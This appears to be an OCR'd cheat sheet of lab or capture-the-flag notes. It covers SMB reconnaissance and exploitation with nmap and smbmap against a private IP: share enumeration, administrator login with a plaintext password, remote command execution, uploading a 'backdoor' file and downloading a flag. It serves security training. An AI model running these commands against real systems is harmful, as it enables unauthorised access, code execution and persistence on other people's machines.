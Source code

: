On Linux:
>Discover smb protocols with nmap
>`nmap -p445 --script smb-protocols 10.5.2.102`
>** SMBmap **
>Discover all the available shares on the target
>`smbmap -u guest -p "" -d . -H 10.5.2.102`
>Access the remote shares using credentials
>`smbmap -u administrator -p smbserver_771 -d . -H 10.5.2.102`
>Execute commands via smb with smbmap
>`smbmap -u administrator -p smbserver_771 -H 10.5.2.102 -x 'ipconfig'`
>List all available drivers shared
>`smbmap -u administrator -p smbserver_771 -H 10.5.2.102 -L`
>List contents of the C:\ driver
>`smbmap -u administrator -p smbserver_771 -H 10.5.2.102 -r 'C$'`
>Upload a file
>`smbmap -u administrator -p smbserver_771 -H 10.5.2.102 --upload '/root/backdoor' 'C$\backdoor'`
>Download a file
>`smbmap -u administrator -p smbserver_771 -H 10.5.2.102 --download 'C$\flag.txt'`